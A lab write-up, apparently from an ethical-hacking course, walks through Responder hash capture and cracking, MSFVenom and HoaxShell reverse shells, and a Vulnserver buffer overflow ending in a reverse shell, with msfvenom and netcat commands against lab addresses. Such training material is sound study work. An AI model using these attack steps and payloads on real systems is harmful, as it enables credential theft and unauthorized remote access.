


Here is the full documentation for **Module 06, Lab 1**, formatted according to the improved template.

**File Path:** `Module06-System_Hacking/Lab1/README.md`

---

# Lab 1: Gain Access to the System

## Objective

To gain unauthorized access to a target system using three distinct methods:

1. **Active Online Attack:** Cracking user credentials by poisoning LLMNR/NBT-NS protocols using **Responder**.
2. **Remote Access:** Creating a reverse shell connection using **Reverse Shell Generator** and **HoaxShell**.
3. **Buffer Overflow:** Exploiting a vulnerable application (**Vulnserver**) to execute arbitrary code and gain a shell.

## Lab Environment

- **Attacker Machine:** Parrot Security (`10.10.1.13`)
- **Credentials:** `attacker` / `toor`

- **Target Machine:** Windows 11 (`10.10.1.11`)
- **User:** `Jason` / `qwerty` (for Task 1)
- **User:** `Admin` / `Pa$$w0rd` (for Task 2 & 3)

- **Tools Used:**
- Responder
- John the Ripper
- Reverse Shell Generator (Docker)
- MSFVenom & Metasploit
- HoaxShell
- Immunity Debugger
- Mona.py
- Vulnserver

## Lab Scenario

Gaining access is the pivotal phase where an ethical hacker moves from reconnaissance to exploitation.

- **Task 1** simulates an internal network attack where an attacker listens for broadcast requests (LLMNR) and captures hashed credentials.
- **Task 2** demonstrates how to generate malicious payloads (Reverse Shells) and trick a user into executing them.
- **Task 3** delves into low-level binary exploitation (Buffer Overflow), showing how to crash a program, control the instruction pointer (EIP), and inject shellcode to take control of the system.

## Steps Taken

### Task 1: Perform Active Online Attack to Crack the System's Password using Responder

1. **Start Responder:**

- **Action:** Launched Responder on the `eth0` interface to poison LLMNR and NBT-NS protocols.
- **Command:**

```bash
sudo responder -I eth0

```

- **Observation:** Responder began listening for network events.

2. **Trigger the Poisoning Event:**

- **Action:** On the **Windows 11** machine (logged in as `Jason`), attempted to access a non-existent network share.
- **Command (Run Dialog):** `\\CEH-Tools`
- **Outcome:** The Windows machine broadcasted a request to find "CEH-Tools". Responder answered, pretending to be the server, and captured Jason's NTLMv2 hash.

3. **Capture and Crack Hash:**

- **Action:** Copied the captured hash from the Responder terminal to a file named `hash.txt`.
- **Command:**

```bash
john hash.txt

```

- **Observation:** John the Ripper successfully cracked the hash, revealing the password: **qwerty**.

### Task 2: Gain Access to a Remote System using Reverse Shell Generator

1. **Initialize Reverse Shell Generator:**

- **Action:** Started the generator via Docker and accessed it in the browser.
- **Command:**

```bash
docker run -d -p 80:80 reverse_shell_generator

```

- **Configuration:**
- **IP:** `10.10.1.13` (Attacker)
- **Port:** `4444`
- **Type:** MSFVenom (Windows Meterpreter Staged Reverse TCP x64)

2. **Generate and Execute Payload (MSFVenom):**

- **Action:** Copied the generated `msfvenom` command, ran it to create `reverse.exe`, and transferred it to the target via a shared folder.
- **Listener:** Started the Metasploit listener provided by the generator.
- **Execution:** Ran `reverse.exe` on Windows 11.
- **Observation:** A meterpreter session was established on the Parrot machine. Verified with `getuid`.

3. **Generate and Execute Payload (HoaxShell):**

- **Action:** Selected **HoaxShell (PowerShell IEX)** in the generator.
- **Port:** Changed to `444`.
- **Payload:** Saved the generated PowerShell script as `shell.ps1` and transferred it to the target.
- **Execution:** Ran `.\shell.ps1` in PowerShell on Windows 11.
- **Observation:** A session was established in the HoaxShell listener. Verified with `whoami`.

### Task 3: Perform Buffer Overflow Attack (Vulnserver)

1. **Setup Debugging Environment:**

- **Action:** On Windows 11, ran **Vulnserver** (the vulnerable app) and attached **Immunity Debugger** to it.
- **Connection:** Verified connectivity from Parrot using `nc -nv 10.10.1.11 9999`.

2. **Spiking (Identify Vulnerable Function):**

- **Action:** Used `generic_send_tcp` with SPIKE scripts (`stats.spk`, `trun.spk`) to send malformed data.
- **Observation:** `TRUN` command caused Vulnserver to crash and overwrite registers (EAX, ESP, EBP, EIP) with "A"s (0x41).

3. **Fuzzing (Determine Crash Size):**

- **Action:** Ran a Python fuzzing script (`fuzz.py`) to send increasing lengths of data.
- **Observation:** The application crashed at approximately **5100 bytes**.

4. **Finding the Offset:**

- **Action:**

1. Generated a cyclic pattern of 10,400 bytes: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 10400`.
2. Sent this pattern to Vulnserver using `findoff.py`.
3. Note the EIP value in Immunity Debugger (`386F4337`).
4. Calculated offset: `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 10400 -q 386F4337`.

- **Result:** The EIP offset is **2003 bytes**.

5. **Controlling EIP:**

- **Action:** Created `overwrite.py` to send 2003 "A"s, followed by 4 "B"s.
- **Observation:** EIP was overwritten with `42424242` (BBBB), confirming control.

6. **Finding Bad Characters:**

- **Action:** Sent all hex characters (`\x01` to `\xff`) using `badchars.py` and inspected the memory dump in Immunity.
- **Result:** Only `\x00` (null byte) was identified as a bad character.

7. **Finding JMP ESP (Return Address):**

- **Action:** Used `mona.py` to find a module with no memory protections (ASLR/DEP).
- **Command:** `!mona find -s "\xff\xe4" -m essfunc.dll` (Opcode for JMP ESP).
- **Result:** Found return address `0x625011af`.

8. **Exploitation:**

- **Action:**

1. Generated shellcode: `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.1.13 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"`.
2. Updated `shellcode.py` to structure the payload: `[Padding "A"s * 2003] + [Return Address (Little Endian)] + [No-Op Sled "\x90"] + [Shellcode]`.
3. Started a Netcat listener: `nc -nvlp 4444`.
4. Executed `shellcode.py`.

- **Observation:** The Exploit worked, and a reverse shell was caught by Netcat.

## Observations & Analysis

- **Responder Risk:** The ease of capturing hashes (Task 1) highlights why LLMNR/NBT-NS should be disabled in corporate environments.
- **Buffer Overflow Mechanics:** This lab clearly demonstrated the standard stack-based overflow methodology:

1. **Crash** the app.
2. **Control** the EIP (Instruction Pointer).
3. **Point** the EIP to a `JMP ESP` instruction.
4. **Execute** shellcode placed on the stack (at ESP).

## Screenshots

Responder Capturing NTLMv2 Hash


John the Ripper Cracking Result



Reverse Shell Generator Interface



Immunity Debugger - Registers Overwritten (Spiking)


Mona.py Finding JMP ESP Address

Successful Buffer Overflow Reverse Shell

## Disclaimer

This documentation is for educational and ethical hacking training purposes only. No unauthorized access or attacks were performed. Always ensure proper authorization before engaging in penetration testing activities.

---
